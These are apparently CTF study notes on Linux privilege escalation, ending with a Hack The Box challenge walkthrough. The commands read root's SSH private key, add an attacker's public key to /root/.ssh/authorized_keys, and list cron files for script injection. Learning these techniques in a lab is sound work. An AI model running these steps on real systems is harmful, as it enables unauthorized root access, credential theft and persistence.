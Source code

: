 Exploit command with sudo :

* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io)

## Scheduled Tasks

List of files to inject script :

* /etc/crontab
* /etc/cron.d
* /var/spool/cron/crontab/root

## SSH Keys

Ssh key location :

* `/home/user/.ssh/id_rsa`
* `/root/.ssh/id_rsa`

If you get the remote public key :

```
vim id_rsa
chmod 600 id_rsa
ssh user@10.10.10.10 -i id_rsa		# use rsa key
```

If you can insert your public key into remote :

```
ssh-keygen -f key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
ssh root@10.10.10.10 -i key
```

## Challenge (privilege escalation)

```
ssh user1@138.68.164.196 -p 30950

user1@remote> sudo -l
user1@remote> sudo -u user2 /bin/bash
(password1)

user2@remote> cd /home/user2
user2@remote> cat flag.txt					# HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
user2@remote> cat /root/.ssh/id_rsa			# copy private key

me@local> vim ~/.ssh/id_rsa					# paste into this file
me@local> ssh root@138.68.164.196 -p 30950

root@remote> cat flag.txt					# HTB{pr1v1l363_35c4l4710n_2_r007} 
```
